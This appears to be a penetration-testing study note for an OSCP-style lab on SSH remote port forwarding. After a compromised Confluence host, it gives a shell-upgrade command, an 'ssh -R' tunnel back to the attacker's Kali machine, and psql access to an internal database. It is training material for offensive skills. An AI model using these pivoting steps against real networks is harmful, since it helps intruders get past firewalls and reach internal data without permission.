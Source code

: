 ```yaml
---
aliases:
  - SSH remote port forwarding
  - remote port forwarding
  - remote port forward
---
```

# SSH Remote Port Forwarding
Unfortunately in the real world, [dynamic port forwarding](dynamic-port-forwarding.md) and [local-port-forwarding](local-port-forwarding.md) with SSH is not very useful because we rarely find ourselves in a situation where *we can make inbound connections to a device* like `CONFLUENCE01`. Most organizations configure their [firewalls](../../../cybersecurity/defense/firewalls.md) to restrict inbound connections. Outbound connections, however, are harder to restrict, so most networks allow common types of outbound traffic (like SSH) to keep things simple.

In pen-tests we're much more likely to be able to *[SSH](../../../networking/protocols/SSH.md) out of a network we've compromised*. In this situation, we can use *SSH remote port forwarding* to make an outbound connection to an SSH server *we control*.  The idea is similar to how [revshells](../../../cybersecurity/TTPs/exploitation/rev-shell.md) work.

Unlike local and dynamic port forwarding, where the listening port *is bound to the SSH client* (`CONFLUENCE01` in the [scenario](../linux-tools/port-forwarding-scenario.md) we've been using), in remote port forwarding, the listening port *is bound to the SSH server*. Additionally, the packets are *forwarded by the client* instead of by the SSH server.
## Scenario
Imagine we compromised `CONFLUENCE01` using the [same CVE](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) as before, but this time, the network administrators have improved security by *implementing a firewall on the perimeter* which disallows inbound connections to the `CON01` server. The only port on the server that the firewall allows an outbound connection to is `8090`.

If we (again) want to enumerate the `PGDATABASE01` host on the internal network we're going to have to use SSH remote port forwarding because the firewall won't let us open a listening port on `CON01` (like we did using [socat](../linux-tools/socat.md)). 

What we can do instead is *SSH into our attacking machine from `CON01`*, then setup a *remote port forward SSH connection* back to the [loopback](../../../networking/routing/loopback.md) interface *of our kali machine*. The SSH server we start on our kali machine will listen for that connection and then forward the traffic from it back to `CON01` which will forward it again to `PGDATABASE01`:
![](../../oscp-pics/remote-port-forward-1.png)
## Setup and Execution
To set this up in general, we need to have an SSH server started on our attacking Kali machine. Then we need to SSH into `CON01`. From there, we need to create the SSH remote port forwarding connection which will connect back to our Kali machine. 

Assume we already have the revshell on `CON01`.
### Starting our SSH Server
To start the SSH server on our attacking box, we need to use OpenSSH. The OpenSSH server is  usually pre-installed, so all we have to do is start the service with `systemctl`:
```bash
kali@kali:~$ sudo systemctl start ssh
[sudo] password for kali: 
```
#### Check the SSH Port
We can make sure the SSH server port is open using `ss`:
```bash
kali@kali:~$ sudo ss -ntplu 
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN 0      128             [::]:22           [::]:*     users:(("sshd",pid=181432,fd=4))
```
### Establishing the Remote Port Forward
Back on `CON01` we can now make our SSH remote port forward connection. For this, we're going to use the `ssh` command again with a flag of `-R` for remote port forwarding. But first, we should make sure we have a stable [TTY](../../../computers/linux/terminal-tty-shell.md)
#### TTY
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#### `ssh -R`
The `ssh` command has nearly the same syntax as the dynamic port forwarding `ssh` command did. After `-R` we list the connections we want to make, first to our SSH server, then to `PGDATABASE01` (which will be made by `CON01`). After listing the two hosts, then we'll put `kali@192.168.118.4`. This is the initial SSH connection back to our Kali machine:
```bash
$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
< 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```
> [!Note]
> Make sure you configure a *strong password* for the `kali` user you're SSHing onto your server as. Additionally, you will have to ensure that *password based authentication* is allowed by setting `PasswordAuthentication` to `yes` in `/etc/ssh/sshd_config`.
### Verifying the Connection
To make sure our remote port forward connection worked, we can use `ss` again on our *Kali machine* to check that port `2345` is open on the loopback interface:
```bash
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      128        127.0.0.1:2345      0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
```
## Using the Connection
Now we can us the remote port forward connection to run tools against `PGDATABASE01`. For instance, if we want to use `psql` again (like we did in our [socat](../linux-tools/socat.md) scenario). This time the target host is *our own loopback address* since all of the traffic to that address (and port 2345) *is now configured to be forwarded to `CON01` and eventually to `PGDATABASE01`*:
```bash
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
